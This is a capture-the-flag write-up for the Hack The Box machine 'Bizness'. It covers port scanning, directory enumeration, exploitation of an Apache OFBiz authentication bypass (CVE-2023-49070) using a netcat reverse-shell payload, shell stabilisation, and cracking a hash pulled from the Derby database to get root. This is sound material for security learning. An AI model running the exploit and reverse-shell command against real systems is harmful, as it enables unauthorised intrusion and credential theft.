# [Bizness](https://app.hackthebox.com/machines/bizness)

```bash
nmap -p- --min-rate 10000 10.10.11.252 -Pn 
```



After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443,39229 10.10.11.252
```




From nmap scan, I see that I need to add this ip address into `/etc/hosts` file for resolving purposes, let's add and browse this web application.




Let's do directory enumeration via `dirsearch`.
```bash
dirsearch -u https://bizness.htb -e*
```




Let's browse `/accounting` endpoint.



I see that there is `Apache OFBIZ` framework is used, let's search publicly known CVE for this.


I found [exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) whose CVE-id is `CVE-2023-49070`.


Let's use this.
```bash
python3 exploit.py --url https://bizness.htb/accounting/control/main --cmd "nc -c bash 10.10.16.7 1337"
```




Hola, I got reverse shell from port (1337).




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


user.txt




For privilege escalation, I find sensitive file called `AdminUserLoginData.xml` on directory "/opt/ofbiz/framework/resources/templates/".





I just look through files for '/opt/ofbiz/runtime/data/derby/ofbiz/seg0' directory, found SHA hash for file called `c6650.dat`.



I got this hash "$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN" from here.


I found a script from internet to crack this hash.




Probably, it is password of `root` user.

root: monkeybizness


root.txt

